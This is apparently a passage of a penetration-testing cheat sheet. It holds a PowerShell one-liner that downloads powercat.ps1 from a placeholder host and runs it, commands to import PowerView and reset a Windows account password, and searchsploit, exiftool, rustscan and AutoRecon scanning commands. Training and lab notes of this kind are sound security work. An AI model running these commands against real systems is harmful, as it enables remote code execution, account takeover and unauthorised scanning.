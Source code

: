 ```
# Import PowerShell Script
. .\powercat.ps1
Import-Module .\PowerView.ps1

# Download a Script from URL and Run it
iex (New-Object System.Net.Webclient).DownloadString('https://IP/powercat.ps1')
```



On Windows, have system priv -> change password

```
net user poultryadmin OffSecHax1!
```



Searchsploit

```
searchsploit -m file		# mirror exploit
searchsploit -x file		# examine exploit
```



Extract Metadata Info

```
exiftool "Windows Event Forwarding.docx"
```



Kali: Microsoft Office Word

```
libreoffice xxx.docx
```



WADComs - interactive cheat sheet - https://wadcoms.github.io/





## Vulnerability Scanning

```
sudo rustscan --ulimit 5000 -a IP -- -v -n -Pn --script "default,safe,vuln" -sV -oA tcp-all
```

- **AutoRecon**

  ```
  /home/kali/.local/bin/autorecon
  
  autorecon 10.10.10.3
  autorecon -t targets.txt	# mulit-target scans
  
  autorecon 192.168.154.130 --only-scans-dir	# only generate scan folder
  autorecon 192.168.126.133 --single-target	# not generate folder with ip name
  
  
  autorecon 192.168.126.133 --nmap-append sS
  	--nmap-append	# add parameters but not override Default: -vv --reason -Pn -T4
  	--nmap-append='--min-rate 1000'
  	-v	
  	--dirbuster.wordlist /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
  	
  sudo $(which autorecon) [OPTIONS]
  
  sudo $(which autorecon -v 192.168.154.130 --single-target
  ```